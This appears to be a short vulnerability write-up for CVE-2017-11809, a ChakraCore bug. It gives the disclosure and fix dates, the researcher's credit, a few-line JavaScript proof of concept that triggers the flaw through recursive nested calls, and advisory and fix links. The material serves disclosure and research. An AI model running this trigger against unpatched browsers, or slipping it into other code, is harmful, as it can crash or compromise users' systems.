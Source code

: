 # CVE-2017-11809

- Report: Aug 2017
- Fix: Oct 2017
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function trigger() {
    let a, b, c;

    function g() {
        trigger();

        a, b, c;
    }

    g();
}

trigger();
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2017-11809)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1338)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/e2b35ab97bd9796723c4ebab8aab9ab5830f2735)